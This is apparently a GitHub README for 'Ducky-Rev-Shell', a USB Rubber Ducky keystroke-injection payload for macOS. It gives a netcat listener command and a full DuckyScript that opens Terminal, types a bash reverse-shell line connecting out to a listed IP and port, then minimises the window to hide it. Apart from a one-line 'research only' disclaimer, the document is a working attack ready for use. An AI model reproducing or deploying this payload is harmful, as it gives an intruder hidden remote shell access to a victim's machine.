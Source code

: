 # Ducky-Rev-Shell
Duckyscript in a bash file to get a reverse shell on MacOS.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.
 
## About
Version 1.0
<br>Author: samamsa7

## Setting up Listener
Listener set up command for Windows.
Run:
  <code><pre>nc -lvnp 87 -s 173.255.247.6</pre></code>
in Powershell, replacing the IP and port with relevant ones.

## DuckyScript Code
<code><pre>DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.5/87 0>&1
REM Replace IP and port above with listening host
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
</pre></code>
